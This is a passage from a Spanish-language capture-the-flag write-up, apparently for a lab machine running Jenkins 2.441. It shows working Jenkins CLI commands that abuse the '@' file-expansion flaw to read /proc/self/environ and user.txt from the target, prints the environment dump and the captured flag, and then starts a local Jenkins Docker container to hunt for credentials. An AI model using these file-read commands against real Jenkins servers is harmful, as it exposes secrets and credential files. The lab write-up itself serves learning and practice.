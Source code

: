 ## Foothold (punto de apoyo)

Ahora que hemos confirmado que el exploit funciona, enumeremos el entorno del Instalación de Jenkins.

```bash
# ejecutamos el siguiente comando para obtener las variables de entorno
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/proc/self/environ"
# resultado:
ERROR: No such command HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsCOPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_UC=https://updates.jenkins.ioSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin. Available commands are above.


# obtuvimos que Home esta ubicado en /var/jenkins_home de los cuales las variables que podemos tomar en cuenta para la etapa de escala de privilegios es:

JENKINS_HOME=/var/jenkins_home
HOSTNAME=0f52c222a4cc

# ejecutamos el siguiente comando para visualizar el archivo
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/var/jenkins_home/user.txt"
# la ruta completa del directorio del usuario builder
/var/jenkins_home
# obtener la primera bandera con:
java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/var/jenkins_home/user.txt"
# con la flag
dba2ff7d3cbc590ff02a919c9d187a85
```

Los caracteres aleatorios en el nombre del HOSTNAME generalmente indican que estamos buscando dentro de un contenedor Docker.
Para continuar, nuestra mejor opción es crear un contenedor Docker local a partir del archivo oficial de Jenkins.
repositorio.

3. Obtener credenciales:

Creamos un contenedor de Docker de los repositorios oficiales de jenkins

```bash
sudo docker pull jenkins/jenkins:lts-jdk17
sudo docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```

al realizar la instalacion nos daran la contraseña para acabar de configurar nuestra instancia de jenkins que usaremos posteriormente
